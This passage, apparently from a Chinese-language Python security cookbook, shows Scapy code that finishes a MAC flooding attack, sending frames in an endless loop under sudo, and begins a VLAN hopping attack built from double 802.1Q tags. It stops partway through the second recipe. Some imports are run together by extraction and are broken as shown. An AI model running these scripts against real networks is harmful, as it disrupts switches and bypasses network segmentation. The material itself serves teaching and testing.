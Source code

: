 数据包结构将如下所示：

![](img/00057.jpeg)

1.  最后，在无限循环中发送数据包：

```py
try:
    while True:
        sendp(pkt, iface=interface)
except KeyboardInterrupt:   
    print("Exiting.. ")   
    sys.exit(0)  
```

1.  现在以所需的权限运行文件：

```py
sudo python3 mac-flooder.py  
```

# VLAN 跳跃 

VLAN 跳跃是一种攻击类型，攻击者能够将一个 VLAN 的流量发送到另一个 VLAN。我们可以用两种方法实现这一点：双标签和交换机欺骗。为了创建双标签攻击，攻击者发送一个带有两个**802.1Q**标签的数据包--内部 VLAN 标签是我们计划到达的 VLAN，外层是当前的 VLAN。

# 如何做...

以下是模拟简单的 VLAN 跳跃攻击的步骤：

1.  创建一个`vlan-hopping.py`文件并在您的编辑器中打开。

1.  导入模块并设置变量：

```py
import timefrom scapy.all 
import *iface = "en0"
our_vlan = 1
target_vlan = 2
target_ip = '192.168.1.2'  
```

1.  使用两个 802.1Q 标签制作数据包：

```py
ether = Ether()
dot1q1 = Dot1Q(vlan=our_vlan)   # vlan tag 1 
dot1q2 = Dot1Q(vlan=target_vlan) # vlan tag 2
ip = IP(dst=target_ip)
icmp = ICMP()
packet = ether/dot1q1/dot1q2/ip/icmp  
```

数据包将如下所示：

![](img/00058.jpeg)
